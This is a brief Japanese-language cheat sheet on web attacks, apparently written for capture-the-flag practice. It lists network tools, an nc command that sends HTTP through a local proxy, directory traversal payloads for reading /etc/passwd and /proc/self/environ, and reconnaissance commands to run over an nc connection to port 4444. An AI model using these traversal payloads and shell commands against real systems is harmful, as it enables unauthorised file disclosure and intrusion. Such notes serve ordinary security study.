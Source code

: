 # Web

## ツール

- Wireshark
- Python
  - Scapy
  - dpkt
- nc

```bash
# -cで改行入力を待つ。-xでプロキシ経由
nc -c -X connect -x localhost:8080 localhost 80
GET / HTTP/1.1
Host: 127.0.0.1
```

## ディレクトリトラバーサル

```bash
../../../../../../../../../../etc/passwd
../../../../../../../../../../proc/self/environ
../../../../../../../../../../proc/self/cmdline
../../../../../../../../../../proc/self/maps
```

## 使えるコマンド

```bash
nc localhost 4444
exec id

# 情報取得
id
whoami
uname -a
ls -lahF
```
